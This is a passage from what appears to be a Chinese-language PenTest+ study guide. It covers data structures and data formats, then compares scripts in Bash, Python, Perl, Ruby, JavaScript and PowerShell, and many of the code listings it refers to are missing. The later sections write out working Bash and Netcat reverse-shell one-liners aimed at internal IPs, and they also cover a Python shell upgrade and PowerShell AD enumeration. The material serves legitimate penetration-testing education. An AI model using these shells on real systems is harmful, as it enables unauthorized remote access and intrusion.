如果你想记录想买的食品杂货，可以使用一个包含牛奶、鸡蛋、苹果和冷冻披萨的数组。数组是固定长度或可变长度的数据组，按顺序索引。有时，我们希望确保数组保持有序，但数组本身并非天生有序。然而，列表是有序的，用法与数组类似。我们会在根据商店购物顺序构建购物清单时使用它们。我们可能想先买苹果，然后是鸡蛋，接着是牛奶，最后买冷冻披萨。数组添加元素后可能无法保持相同顺序，但列表会维持顺序。

字典使用键值对。键始终是单个值，但值可以是单个项目、项目列表，甚至是另一个字典。如果我们想记录购物偏好，可能想指定最爱的苹果是青苹果，但可能有两种最爱的披萨：意大利辣香肠和至尊。字典可以同时记录这两者，因为每个键都与另一条数据（字符串或数组）有直接关系。在 Python 中这可能如下所示：

```
favs = {'apple': 'granny smith', 'pizza': ['pepperoni','supreme']}
```

然后我们可以通过使用所需值的键来访问我们的偏好：


####### 树

树使我们能轻松跟踪已排序的数据。对数据排序有两种方式：访问时排序和添加时排序。树让我们能更快地获取已排序数据，因为所有昂贵的排序操作都发生在数据插入时。树与其他数据结构不同，因为它们有一个根节点（你总是从它开始），数据从那里链接分支出去。图 11-1 帮助我们像对动物分类一样理解这一点。动物将是树的根，然后我们可能按双足和四足动物对动物分类。从那里可以进行进一步分类，每遍历一个节点就更接近我们要找的数据。


**图 11-1** 树形图

####### CSV、XML 和 JSON

应用程序互操作的挑战之一是共享数据。在特定应用程序内部，数据结构可以轻松以其原生形式（如字典或数组）存在。然而，由于每种语言和应用程序处理数据结构的方式可能不同，因此能够以通用格式共享数据非常重要。让我们来谈谈三种数据格式：CSV、XML 和 JSON。

逗号分隔值（CSV）使用逗号分隔数据存储中的值。人员列表可能包含每条记录的名、姓、地址和城市等属性。如果 CSV 的第一行包含字段名，且每一后续行包含由逗号分隔的每条记录的值，工具就能轻松读取这些值。一个示例可能如下所示：


当数据结构完全相同时这很容易，但如果数据没有一致的结构怎么办？可扩展标记语言（XML）适用于需要一致性的、有完善文档的数据类型。以下是用 XML 表示上述数据的一种方式：


整体结构是一个名为 "PersonList" 的人员列表。每个人单独列出，每个人的属性使用标签标记。标签有开始和结束值，文档甚至可能有文档类型定义 (DTD)，解释 XML 文档需要如何组织以及哪些字段有效。XML 有大量开销，但很容易验证数据是否有效。

JavaScript 对象表示法 (JSON) 更适合自由形式的数据类型，是数据交换的宠儿。JSON 常用于框架间的 Web 事务，因为它在浏览器和其他语言中易于解析。用不同语言编写的多个后端都能在有限开销下轻松理解 JSON，无需创建脚本定义来规定什么有效。

让我们扩展之前的人员示例。如果我们有来自不同国家的个体，想知道城市所属的州或省怎么办？JSON 可以轻松处理，如下所示：


我们的两个人在不同国家。在加拿大，城市可能按省分组。在美国，城市将属于某个州。JSON 可以无缝处理这种情况，理解差异将取决于处理数据的应用程序。这个 JSON 对象中有两种不同的数据类型：花括号表示它是一个对象，方括号表示它是数组的一部分。

你使用的格式将取决于你使用的数据结构以及对差异的敏感度。CSV 不容易处理数据差异，XML 只要差异被允许作为数据格式的一部分就能处理，而 JSON 只要你能用 JSON 能理解的数据结构类型表达，就可以是任何形式。

#### 其他编程概念

现在我们了解了数据如何处理以及语言的一些关键逻辑和语义构造，理解应用程序可以如何组织以使其更易于管理、并能支持代码复用和数据组织等概念就很重要了。并非每种语言都同等实现这些概念，但对于实现了这些概念的语言，让我们来谈谈过程、函数、类和库。

##### 过程

过程将可能需要多次执行的指令组合在一起。过程通常不接受额外选项；它们只包含执行一系列逻辑步骤的代码。如果你经常需要删除 `/tmp` 目录中超过 24 小时的所有文件，你可以创建一个过程来执行该任务。

过程不返回数据，因此其用途仅限于重复性任务。应用程序可能使用的一个常见过程是打印应用程序的用法选项，这样如果任何选项验证不通过，它每次都以相同方式打印。以下是 Ruby 中一个示例用法过程的例子：


################ 函数

当你有重复性任务需要接受任务输入或提供任务的可用输出时，使用函数。你可能会创建一个函数，通过提供 JSON 字符串作为参数来判断其是否有效。你处理验证逻辑。然后，如果 JSON 字符串有效，函数返回 true；如果无效，返回 false。JavaScript 实现方式如下：


我们的 `isValidJSON` 函数接收一个名为“JSONstring”的字符串。`try` 语句表示“尝试将 JSON 解析到变量 a 中”。如果成功，则会完成该语句并返回 true，因为它是有效的。如果 JSON 解析失败，`catch` 语句将捕获错误并返回 false，让我们知道它是无效的。让我们试一下：


我们可以看到，当我们指定 JSON 字符串时，它成功解析，因此工作正常。让我们试一个不工作的。


我们没有看到任何错误，但确实看到它返回了 false。`try/catch` 语句为我们处理了错误。如果我们只是尝试直接解析它，就会得到一个错误：


我们可能会经常使用此函数，在程序提交数据之前测试数据的有效性。创建函数使我们能够重用代码，而不必反复重写代码和错误处理。

################ 类

类是一种编程工具，用于将与数据相关的数据、函数和过程保存在一起。通过将这些内容放在一起，我们可以将与该类型对象相关的所有代码保存在一个地方。通过将相关数据放在一起，你可以确保只在一处更新它。当我们在应用程序中重用这些数据时，不必多次编写处理数据的函数。此外，当类的内容发生变化时，它将能够在应用程序的各处同步更改。当你想要为一段数据添加更多错误处理、验证或操作时，这也很方便。

也许一个人有名、姓和地址。这种类型的数据将在整个应用程序中使用。你可能会创建一个类，以便处理人的所有内容都可以引用相同的数据结构。这样做也会将与该人相关的代码保存在一起。然后，当你需要获取名字时，可以用一致的方式进行。Python 将按如下方式实现：


我们创建了一个 `Person` 类，它有一个 `init` 函数，当创建新对象时会被调用。传递给此函数的选项用于自动设置对象的变量。它们每个都有一个“None”默认值，因此你可以在定义 `Person` 时指定任意数量的这些选项。此外，类通常具有 `get` 和 `set` 函数，它们将返回任何项目的数据或设置允许设置的那些项目的值。此外，某些函数可能具有额外的逻辑，例如 `getName` 函数，它将名和姓组合在一起以返回一个完整的名字。让我们看看实际效果。


在这里，我们创建了一个名为 John Doe 的新人。我们可以打印出名字，将名字改为 Jane，然后打印出新值。因为所有这些都是单个类的一部分，我们可以向这些函数中的任何一个添加验证，该验证将伴随我们的类在任何其他地方被使用，确保它在整个应用程序中保持一致。

################ 库

有时我们可能需要当前代码之外的类和函数。通过使用库，代码可以以相同的方式跨多个文件或项目使用。许多库内置于语言中，因为它们是每个人都需要的东西。其他库则需要被引入。像 pypi.org 和 RubyGems.org 这样的网站是包含库的包的索引，其他人可以在他们的应用程序中使用这些库。这使得在必要时跨多个项目轻松更新代码成为可能。

许多人可能需要与数据库服务器通信，因此制作一个完成所有繁重工作的库将使所有人受益。此库可能包含多个类、函数、过程、数据元素和其他信息。不过，我们不必直接处理所有这些。我们不需要知道它与数据库服务器通信的所有细节。我们只希望在调用 `db.connect()` 时它能工作。

大多数编程语言都有库的概念；然而，某些语言（例如 Bash）并不真正使用它们。相反，你可以指定可以包含到另一个文件中的文件。当你这样做时，它们不会像在 Python 或 Ruby 中那样被分层处理。无论你处理何种类型的数据结构，将它们打包在一起成捆都是有意义的，因为它增加了跨程序和项目的一致性，并允许你轻松重用代码而不是重写代码。理解库对于大型项目以及你打算与他人共享以供他们在其项目中使用的项目至关重要。

#### 实际示例

PenTest+ 考试目标要求你知道如何分析 Bash、Python、Perl、Ruby、JavaScript 和 PowerShell 中的基本脚本。为了帮你备考，我们在每种语言中都包含了一个基本脚本示例，供你对比它们并看到前面一些结构的实际应用。在下一节中，我们将介绍每种语言的专用示例。

在进入示例之前，我们需要介绍 shebang（脚本声明行）。我们知道脚本是用什么语言编写的，基于文件扩展名，对吧？如果是 .py，就是 Python。如果是 .sh，就是 Bash。如果是 .rb，就是 Ruby，对吧？没那么快。那是 Windows 的做法，但该约定并非起源于 \*nix。黑客不仅懒惰，不总是在脚本上加文件扩展名，而且系统可能安装了多个版本的语言。你怎么知道何时使用 Python2 还是 Python3？在 \*nix 领域，脚本的第一行通常包含俗称的 hash bang 或 shebang：`#!` 这一行将定义脚本解释器的绝对路径：

```
#!/usr/bin/bash
```

由于文件扩展名和 shebang 会泄露语言类型，考试中你可能不会得到这些线索。相反，你需要理解给定代码示例中发生的事情，足以根据语法选择缺失的代码。为了帮你备考，我们在示例中也不会包含 shebang 或文件扩展名。但如果你在网上寻找其他示例，可能会看到它，我们觉得有必要解释一下为什么我们不包含它。废话不多说，这里是每种语言的基本脚本，它们执行以下操作：

1.  从 Web 位置检索 JSON 文件“users/list”。这是我们文件的样子：

    

2.  通过以下方式解析 JSON 文件的内容：

    a.  检查“success”的值，仅当值为 true 时继续。

    b.  检查 JSON 文件中“count”的值（这应对应于要解析的记录数），仅当值大于 0 时继续。

    c.  然后为 JSON 文件中的每个条目在逗号分隔的数组中创建一个条目。

3.  然后脚本将打印 count 值，并使用循环打印数组中的每个值（JSON 文件中的每条记录）作为逗号分隔的表格记录，表头为“First,Last,Address,City”。我们脚本的输出将如下所示：

    

##### 为什么我们称 ! 为 Bang？

简短回答是：这追溯到排版。在现代，\*nix 人群采用了这一术语。仅供娱乐，你可以在一段被称为“Waka Waka Bang Splat poem”（Waka Waka Bang Splat 诗）的互联网小历史中阅读技术人员使用的更多符号名称：[`calvin.edu/news/archive/waka-waka-bang-splat-`](https://calvin.edu/news/archive/waka-waka-bang-splat-)

#### Bash


#### Bash

Bash 在许多 Linux 和基于 UNIX 的环境中被用作 Shell。然而，它只是命令 Shell 的一种类型。在渗透测试期间，你的目标可能不会原生使用 Bash。例如，Kali Linux 默认使用 `zsh`。这些其他 Shell 需要不同的脚本语法。如果你在渗透测试中遇到未使用 Bash 的系统，你要么需要更改 Shell 以使用这些示例，要么 Bash 脚本只能作为你工作的参考模型。由于 CompTIA PenTest+ 考试将包含 Bash 示例，我们将仅专注于此 Shell。我们提供了一些关于其他 Shell 的延伸阅读材料，你可能会在渗透测试期间发现它们很有用。


我们使用变量 “r” 来存储来自 Web 请求的响应，该请求通过 `curl` 发起。在 Bash 中，你可以使用 `$(command)` 将命令的输出赋值给变量。然后我们的脚本使用 `echo` 将响应通过管道传递给 `jq` 命令，后者用于解析 JSON。我们指示 `jq` 提取 “success” 的值并将其存储在 “suc” 变量中，提取 “count” 的值并将其存储在 “count” 变量中。随后，脚本检查 success 的值是否为 “true” 才继续执行，并检查 “count” 的值，如果该值不大于 0，则打印 “No results returned”。


**考试提示** 要识别 Bash，请注意字符串比较使用双等号，数值比较使用 `-gt`，以及 `if` 语句的语法，它以关键字 “if” 开始，以关键字 “fi” 结束。还要注意没有特殊的字符串连接运算符。我们用于打印 count 的 `echo` 命令只是在打印的字符串和变量之间提供一个空格，该变量引用为 “$count”。最后，你是否注意到我们赋值变量时不使用 `$`（例如 “data=(value)”），但引用变量时却使用 `$`（例如 “echo $line”）？

脚本将来自 JSON 的用户值存储到一个名为 “data” 的数组中。和之前一样，我们用 `jq` 从 JSON 中获取 “users” 值，并使用 `join()` 将每条记录转换为每个人的逗号分隔字段列表。它使用换行符作为数组中每条记录的分隔符。完成此部分后，“data” 数组看起来大致如下：


在 Bash 中，特殊 Shell 变量 “IFS” 决定了 Bash 如何理解单词边界。默认情况下，Bash 遇到的任何空格、制表符或换行符都被视为新记录。通过将其仅设置为换行符 (`\n`)，脚本将换行符识别为数组中的记录分隔符，并将逐行打印我们的逗号分隔字段。


**注意** RedHat 的博客文章 “What’s Your Favorite Shell for Sysadmin Work?” 介绍了 Linux 下可用的多种 Shell，以及它们之间脚本语法的一些差异：[`www.redhat.com/sysadmin/favorite-shell`](https://www.redhat.com/sysadmin/favorite-shell)

################ Python

Python 是一种非常流行的脚本语言，因其被认为易于使用且拥有优秀的教程文档，使其对初学者非常友好。它类似于许多编程语言，这使得它成为那些学习 Python 后想学习其他语言的人的良好起点，也使得已熟悉其他语言的人能轻松过渡。

在 Python 中，我们首次看到了库的使用，这里是 “requests”。在 Bash 中，我们能够使用 `jq` 解析 JSON，并使用 `curl` 检索文件。但在 Python 中，我们必须使用 “requests” 库的 `get` 模块来检索文件并将响应存储在 “r” 变量中。然后我们可以使用 `json` 库将 “r” 变量解析为一个名为 “data” 的数据结构。


**考试提示** Python 使用术语 “import” 导入库，且不使用特定术语结束 `if` 语句。相反，它使用语法：`if (comparison) :`（带冒号）。连接操作使用 `+` 完成，我们使用 `print` 代替 `echo`。我们完全不使用 `$` 来引用变量，并使用方括号来引用数据对象的组件。

现在我们可以通过引用数据结构 “data” 的属性名称来评估 JSON 对象的每个部分。我们检查 success、count，并使用 `+` 运算符连接 count 值；打印表头；然后循环遍历 “users” 中的每个条目以打印字段。这里，我们使用字符串格式化运算符将每个值作为字符串 (`%s`) 打印，并用逗号分隔。最后一个 `%` 之后的内容是我们打算按该格式打印的参数。你可能会注意到 Python 比其他一些语言标点符号更少。这是因为 Python 对空格敏感。缩进和较少的标点符号可能有助于你识别 Python。但在编辑过程中混用制表符和空格或不一致地使用它们会给你带来麻烦。排查空白字符错误可是一件非常不愉快的事。


**注意** Python 以综合语言教程的形式提供了所有 Python 功能的文档，可在此处找到：[`docs.python.org/3/tutorial/index.html`](https://docs.python.org/3/tutorial/index.html)

################ Perl

在 Python 之前，Perl 是管理员的主要语言。它在 Web 开发和脚本编写中也被大量使用。在渗透测试中，Perl 很强大，因为它可以配合 `-e` 选项在命令行中使用，以补充 Bash 和其他 Shell 的能力。Perl 以其通过 Perl 兼容正则表达式 (PCRE) 操作文本的强大能力而闻名。与 Python 一样，Perl 也使用模块和库。在我们的 Perl 脚本中，我们使用库来帮助我们利用外部实现的函数发起 Web 请求 (`LWP::Simple`) 和解析 JSON。


我们使用 `get` 函数检索 URL 并将其存储在 “$r” 变量中。然后我们使用 `JSON::decode_json` 方法将 JSON 响应转换为数据对象。现在我们做了一些奇怪的事。我们使用 `->{value}` 语法引用数据对象的组件（如 success 和 count）。我们在 `if` 语句中使用它来测试 success 并检查 JSON 中 count 的值。然后我们打印表头，并使用 `foreach` 循环遍历所有数据值。


**考试提示** 通过库的术语 “use” 来识别 Perl。另外，注意我们使用 `$` 来赋值和引用变量。我们仍然使用 `==` 比较字符串，但现在使用 `>` 比较数字。连接操作通过在要连接的值之间放置 `.` 来完成。你还会看到几乎每行末尾都有分号，并且我们的 `if` 和 `foreach` 循环遵循语法 `if (condition) { action }`，其中大括号标记每个块的结束。

################ Ruby

Ruby 是另一种流行的脚本语言。它可能是渗透测试社区中最流行的语言，因为许多 Metasploit 模块都是用该语言编写的。Ruby 称其库为 “gems”，并使用 `require` 来利用其代码。在我们的示例中，我们借助这些 gems 中外部创建的函数来发起 Web 请求、处理 Web 响应和解析 JSON。


Ruby 使用 `Net::HTTP.get_response` gem 来捕获 Web 请求的响应并将其存储在 `r` 变量中。然后它使用 `JSON.parse` 将响应体转换为名为 `data` 的数据对象。我们再次使用方括号引用值（类似 Python），但这次我们使用 `.to_s` 方法将 `count` 的值转换为字符串，以便将其连接到字符串中。Ruby 在连接时不能混合使用数字和字符串。但请注意，由于我们在 print 语句中引用值的方式（由双引号分隔）为 `#{record["field"]}`，因此在循环中打印记录时不需要使用特殊的连接字符——我们可以直接将变量和逗号一起打印。


**EXAM TIP** Ruby 使用术语 `require` 来引入库，使用 `==` 进行字符串比较，使用 `>` 进行数字比较，使用 `+` 进行连接。`if` 语句语法以 `if` 开始，以 `end` 结束。循环语法为 `(source data).each do |value|`，其中 `value` 是循环内部的引用。Ruby 可以使用 `print` 或 `puts` 来打印字符串。

################ JavaScript

JavaScript 是一种基于 Web 的脚本语言，最著名的是在客户端执行以使网页更具交互性。它常见于 Web 驱动式下载攻击、下载器和浏览器挂钩中。JavaScript 在每个语句（或指令）末尾使用分号。你会注意到我们的分号并不一致。这是因为 JavaScript 会在后台执行自动分号插入（ASI），使分号在一定程度上成为可选的。你可以在此处阅读更多关于发生此情况的条件：[`dev.to/adriennemiller/semicolons-in-javascript-to-use-or-not-to-use-2nli`](https://dev.to/adriennemiller/semicolons-in-javascript-to-use-or-not-to-use-2nli)

运行时执行你的脚本并确定可访问的全局对象。有多种 JavaScript 运行时。例如，每个浏览器都有一个运行前端应用程序的运行时环境。这包括执行脚本的引擎以及决定浏览器如何获取和交互数据的 Web API。也有用于使用 JavaScript 进行全栈开发的服务端运行时。我们的示例使用 Node.js ([`nodejs.org/en/`](https://nodejs.org/en/))，这是一种服务端 JavaScript 运行时。由于这是服务端运行时，我们不是写入窗口或警报框，而是写入控制台。你可能会在其他运行时中看到其他脚本片段，因此不要过于依赖函数和 API 名称作为识别 JavaScript 的关键。请记住，我们的实现仅用于说明目的。这不是唯一的，甚至不是最好的实现方式，但它应该能给你足够的上下文来开始识别 JavaScript。


我们的脚本使用 `require` 从 `http` 模块读取 JavaScript，这使我们能够发起 Web 请求并对其进行操作。我们使用 `const` 来定义一个引用，将此数据作为一个不会被脚本其余部分更改的变量。否则，JavaScript 使用 `let` 来赋值变量。这让我们可以执行 `http.get`，使用从 `http` 模块读取的 `get` 函数来发起 Web 请求并存储响应。Node 使用 `.on` 来注册一个事件处理程序，在响应返回时解析 JSON 并将解析结果赋值为 `data`。`try/catch` 语法为我们提供了一些基本的错误处理。我们测试 `success` 和 `count` 值，然后使用 `for` 循环遍历 `data` 内部的值，将结果写入控制台。


**EXAM TIP** JavaScript 使用 `==` 进行字符串比较，使用 `>` 进行数字比较，使用 `+` 进行连接。我们的 `if` 语句语法以 `if` 开始，内容用花括号表示。循环语法为 `for(comparison){`。JavaScript 不使用 print、echo 或 puts，而是使用 `console.log` 写入控制台，或使用 `document.write` 写入文档进行测试。

################ PowerShell

PowerShell 对 Windows 而言，正如 Bash 对 UNIX 和 Linux 而言。PowerShell 是一种 Microsoft 脚本语言，当你有权访问 Windows 系统时，它对于执行管理任务非常有用。它还可以使与 Active Directory 的交互和任务自动化变得更加容易。在后面的示例中，我们将展示这在渗透测试期间的攻击中是如何发挥作用的。由于大部分内容与我们在其他语言中已经介绍的语法相似，我们不会深入解释这个语言。但我们确实需要说明两点，以帮助你理解这里有点奇怪的地方。

我们使用 `Invoke-RestMethod` (irm) cmdlet 来发起请求，它将结果存储为一个名为 `data` 的数据结构。PowerShell 确实有 `for each` 循环，它们看起来与其他语言的语法相似：`for each ($variable in array){ do stuff }`。然而，在我们的示例中，我们使用的是 `$object.value | ForEach-Object{ do stuff }` 语法。这是 PowerShell 管道操作。它将对象传递给循环进行处理。


**EXAM TIP** PowerShell 对字符串比较和数字比较使用 `-eq` 和 `-gt`，对连接使用 `+`。PowerShell 还使用 `Write-Host` 在屏幕上打印。我们的 `if` 语句语法以 `if` 开始，内容用花括号表示。`for each` 循环使用 `$data.users | %{ commands }` 格式。

##### 专用示例

现在你已经看到了在各种脚本语言中实现的相同功能，让我们深入了解一些你在渗透测试期间可能会用到的专用示例。每个示例都涵盖了与现实生活中的渗透测试相关的特定用例或场景。

###### Bash Shells

在 Bash 中设置命令与控制 Shell 的方法有很多。我们无法涵盖所有可能的排列组合，但如果不包含几个使用 `Netcat` 和其他常见 \*nix 命令的 Bash 示例，那将是我们的疏忽。

####### Bash 反向 Shell

**以下脚本** 需要特权访问，因为你正尝试直接使用 TCP 设备。`-i` 标志使 Shell 具有交互性。`&>` 将 Shell 的标准输出和标准错误重定向到 TCP 连接。`0>&1` 部分从 TCP 连接读取标准输入。

```
bash -i &> /dev/tcp/10.0.123.1/8675 0<&1
```


**NOTE** `/dev/tcp` 并非存在于所有 \*nix 发行版中。这取决于你的目标，可能有效也可能无效。

####### 使用 Netcat

以下命令使用 Netcat 在提供的 IP 和端口上提供服务：

```
nc -e /bin/bash 10.0.123.1 8675
```

或者你可以设置一个 Netcat 监听器：

```
nc -u -lvp 4242
```


**NOTE** Netcat 并非存在于所有 \*nix 发行版中，即使存在，不同版本实现的标志选项也可能不同。请记住这一点，因为这取决于你的目标，可能有效也可能无效。


**NOTE** 要了解更多关于 Netcat (nc) 及其各种标志和用法的信息，请查看 [`man7.org/linux/man-pages/man1/ncat.1.html`](https://man7.org/linux/man-pages/man1/ncat.1.html) 的手册页。

####### 更多 Bash Shells

在本示例中，867 是随机选择的数字。我们打开这个随机编号的文件描述符，并使用 `exec` 对其进行读写，将输入和输出重定向到通过直接访问 `/dev/tcp` 创建的 TCP 套接字。

```
0<&867;exec 867<>/dev/tcp/10.0.0.1/4242; sh <&867 >&867 2>&867
```

`-l` 标志告诉 Bash 表现得像作为登录 Shell 被调用一样。相反，`-i` 标志将 Bash 设置为交互模式。

```
/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

你甚至可以用循环来设置这个。和以前一样，7 是我们用于文件描述符的任意数字。


**注意** Swissky 的 GitHub 仓库 “PayloadsAllTheThings” 中有大量使用各种技术的 Shell 示例：[`github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

###### Bash 自动化

我们在第 2 章中讨论了 Nmap 输出文件格式。其中一种是可 grep 文件格式。让我们看看如何使用 Bash 将可 grep 的 Nmap 结果转化为我们可用于渗透测试下一阶段的内容，首先从基本的 ping 扫描开始，以查看网络上有什么主机存活：

```
$ nmap -sn 10.10.0.0/24 -oG ping-scan
```

这将创建一个可 grep 文件：


现在我们可以通过使用 `awk` 打印由制表符或空格分隔的第二个字段并将其重定向到名为 “targets.txt” 的文件，来创建一个包含所有响应主机的目标文件：

```
$ cat ping-scan.gnmap | grep "Status: Up" | awk '{print $2}' > targets.txt
```

这将留下一个仅包含 IP 的文件，每行一个。现在让我们将其输入 Nmap 进行基本端口扫描。我们将使用 `-iL` 来使用我们的 `targets.txt` 文件作为 Nmap 目标。然后我们将使用 `-sS` 对常见端口（如 SSH、HTTP/S、SMB 和 RDP）进行快速 TCP 扫描（仅 SYN），并使用 `-p` 指定端口。我们只关心开放的端口。


以下是我们的结果：


我们针对每个主机有两个条目，一个包含整体状态（Up），另一个包含由编号/状态/协议//服务/// 定义的端口，采用逗号分隔格式。我们想对 Web 服务器进行更深入的调查。我们可以使用 Bash 创建脚本，用 Nikto 测试我们的 Web 主机，并使用 Nmap 枚举密码套件。

Nikto 的语法是 `perl nikto.pl -h <ip address> -p <port>`，Nmap 的语法将是 `nmap -sV –script ssl-enum-ciphers -p <port> <host>`。我们想创建两个脚本：一个自动运行 Nikto，一个处理我们的 Nmap 扫描。为此，我们需要提取所有拥有 Web 服务器的主机的 IP 地址和端口。图 11-2 展示了如何在 Bash 中实现这一点。


**图 11-2** Bash Nmap 解析器

我们使用特殊的 `IFS` 变量确保 Bash 仅在换行符处分割行。然后我们使用 `awk` 将 IP（行中的第二项）提取到变量中。我们通过使用制表符分隔符的 `awk` 将行的其余部分转储到 “ports” 变量中，以隔离字符串的第二部分。然后我们使用 `cut` 通过定义冒号分隔符并取从第二个位置到行尾的所有内容来分割字符串。最后，我们将每个 “/ ” 实例替换为 ^，以便拥有一个明确的数组分隔符。当我们将 `IFS` 设置为使用插入符号时，我们可以使用 `read` 将 “ports” 变量转换为名为 “parray” 的数组。现在，我们可以循环遍历数组值。如果值包含字符串 “http”，我们想将 IP 和端口打印到 Nikto 文件中。如果值包含 “https”，我们也想将其发送到 Nmap 文件中。首先，我们必须剥离端口条目上的额外字符，因为我们只想要数字。现在我们有了可执行的文件。我们只需要对生成的 .sh 文件执行 `chmod +x`，即可自动使用 Nikto 和 Nmap 攻击我们的 Web 服务器。


**警告** 如果你同时运行太多 Nikto 攻击，你会度过糟糕的一天。在现实场景中，你可能想将此文件拆分成小块来运行。

###### PowerShell Shell

Bash 不是我们用来建立远程 Shell 的唯一 Shell。图 11-3 展示了在 PowerShell 中实现这一点的一种方法。请记住，实现这些类型脚本的方法有很多。请将其视为一个示例，并用它来理解语言语法。


**图 11-3** PowerShell 反向 Shell

首先，我们定义一个要监听的 IP 地址和端口组合。然后我们设置一个将接受连接并开始监听的监听器。`$listener.AcceptTcpClient()` 将等待直到有人连接，然后将连接分配给变量 “c”。`GetStream()` 然后从该客户端连接获取信息。由于网络以字节通信，我们需要为通信缓冲区分配空间，将其分配为变量 “b”。现在我们使用 `while` 循环，只要数据进来就采取行动。我们设置一个 ASCII 编码器将传入的数据转换为字符串。如果数据以 “exit” 开头，它将退出循环并结束连接。否则，它使用 `iex` cmdlet 执行 PowerShell，这是 “Invoke-Expression” 的缩写。这将字符串作为 PowerShell 执行并返回值。通过将其传递给 out-string，我们将其转换为用户可读的字符串。它将该字符串发送给客户端。如果由于某种原因发生错误，PowerShell 会向客户端发送一条消息，指出数据无效。如果连接发生任何问题，我们的循环将停止。因此，我们必须清理它并停止监听器，以便如果失败并需要重新连接，IP 地址和端口组合不会已被占用。


**警告** `Invoke-Expression` 很危险，因为你不一定知道别人在字符串中放了什么供 PowerShell 执行。在本例中，它相对安全，因为这是我们的 Shell。但你永远不应该在可能有理由不信任用户输入的地方使用它。

###### PowerShell：枚举 AD 用户和计算机

假设你已成功钓鱼进入某个环境。你拥有一个域中 Windows 系统的回连。你想从 Active Directory 枚举用户和其他计算机，以识别目标并执行环境侦察。让我们看看如何在 PowerShell 中实现这一点。


首先，我们将查询当前所在的 AD 域。然后，我们将使用 ADSI 建立到域控制器的 LDAP 连接。格式是 `LDAP://` 后跟域名。接下来，我们想创建一个 `DirectorySearcher` 对象，让我们搜索 LDAP。我们创建一个 LDAP 筛选器来搜索用户，并将搜索根设置为域的顶部，即域的可分辨名称。它使用 `FindAll` 命令返回所有结果并将其存储在一个名为 Results 的对象中。我们创建一个名为 users 的空数组来存储用户数据，然后解析 Results 来填充它。`PSCustomObject` 让我们设置希望在 CSV 输出文件中出现的名称:值对。对于 MemberOf 值，我们不想冒着用大量逗号搞乱 CSV 文件的风险，所以我们用 `|` 替换分隔符。这让我们仍然可以轻松查看不同的组。现在我们将 users 对象导出到 CSV 文件。`-NoTypeInformation` 选项意味着我们不在文件的第一行放入对象类型，因为我们只关心数据。它仍然会自动提供带有字段名称的标题行。


**注意** Microsoft 有一篇文章解释 LDAP 搜索语法：[`docs.microsoft.com/en-us/windows/win32/adsi/search-filter-syntax`](https://docs.microsoft.com/en-us/windows/win32/adsi/search-filter-syntax)

我们可以对枚举其他资产（在本例中为组）做同样的事情。我们更改了 LDAP 筛选器和 `PSCustomObject` 属性，以反映我们现在正在搜索组的事实。


###### Python 端口扫描器

图 11-4 展示了一个用 Python 编写的基本端口扫描器示意图，它实现了流程控制、使用 `for` 语句循环、使用 `try` 和 `except` 进行错误处理，以及定义为要扫描的端口范围的数组。


**图 11-4** Python 端口扫描器


执行端口扫描会评估“range”端口范围内定义的每个端口的状态。使用`Threading`（线程）可并行执行多个任务，以优化程序执行的速度和效率。脚本开头的两条 `import` 语句导入程序依赖项，以便成功执行脚本。`sock` Python 模块用于通过套接字接口进行网络通信。


**CAUTION**   图 11-4 中所示的 Python 端口扫描器只是一个使用线程的示例，其错误纠正和操作功能无法与商业或开源端口扫描器相提并论。根据你的操作，启动 9,000 个线程可能会导致某些主机瘫痪，特别是当目标丢弃数据包时。请谨慎操作。

输入/输出（I/O）函数对于传达程序正在做什么以及成功执行所需的条件是必不可少的。最简单的输出形式是将其打印到屏幕上，如果你是在命令行下工作，则是终端窗口。在图 11-3 中，第 15 行使用 `print` 语句将开放的端口号显示在终端窗口中。如果我们想将输出打印到文件，可以注释掉第 15 行，并添加以下内容以打印到名为 `results.txt` 的文件中，如图 11-5 所示：


**Figure 11-5**  Python 写入文件示例


为了进一步剖析这些新语句，第 5 行中的 `"w"` 将文件模式声明为可写。打开文件有多种模式，包括用于读写的 `"r+"` 和 `"w+"`，后者以读写方式打开文件，但如果文件存在则会覆盖它。`open()` 函数打开文件并创建一个新的文件对象以对其进行操作。这是在读取或写入文件之前所必需的。`write()` 方法是一个文件对象访问方法，用于写入文件对象——在本例中，我们的文件对象是 `results`。第 16 行的语句将写入字符串 `'Port: '` 和 `'is open'`，以及从第 13 行的套接字连接中发现开放的特定端口 `+repr(port)`。`\n` 是换行标识符，因此输出会被写入多行。


**TIP**   在 Linux 命令行中，另一种读取或写入文件的方法是使用重定向操作符。`<` 将输入提供给命令，`>` 将命令的输出定向到新文件，`>>` 将命令的输出追加到文件。

###### Python 编码

在渗透测试期间，编码有助于将漏洞利用载荷传输到易受攻击的服务，并有助于对针对目标利用的技术进行混淆。以下是一个使用 base64 编码和解码来转换字符串值 `Enc0deS3cr3t` 的基本示例：


###### 使用 Python 升级为完全交互式 Shell

当你在主机上获得一个 Shell 时，它并不总是完全交互式的。完全交互式 Shell 具有终端控制权，因此你可以使用后台进程、编辑器等。某些漏洞利用只会给你一个简单的 Shell，你需要升级为完全交互式 Shell 以完成更高级的任务。以下是一个简单的单行命令，允许你在受害主机上升级为交互式 Shell：

`python -c 'import pty;pty.spawn("/bin/bash")' &`

记下你攻击主机上的 `$TERM`、行数和列数。在我们的示例中，我们假设 `TERM` 值为 `linux`，35 行和 70 列。然后将它们提供给受害主机：


###### 使用 Perl 修改文件中的 IP 地址

对于网络渗透测试，能够操作 IP 地址、范围和 CIDR 列表是日常工作的一部分。让我们看看如何使用 Perl 让这种情况变得更轻松。对于网络渗透测试，我们得到了这个目标文件：


我们将把它用于 Web 扫描、Nmap 和其他许多工具。然而，经进一步审查，我们的联系人告诉我们，建立原始范围时有人打错了字。所有以 `10.186.250` 开头的 IP 地址都需要被移除并更改为 `10.186.243`。还有一件事。我们需要确保绝对不要动 `10.186.157.23`。我们仍然可以遵循这种文件格式并使用 IP 范围、CIDR 表示法和单个 IP，但我们需要进行这些更改并删除任何重复项。图 11-6 展示了一个将实现我们目标的 Perl 脚本。


**Figure 11-6**  用于修复 IP 地址的 Perl 脚本

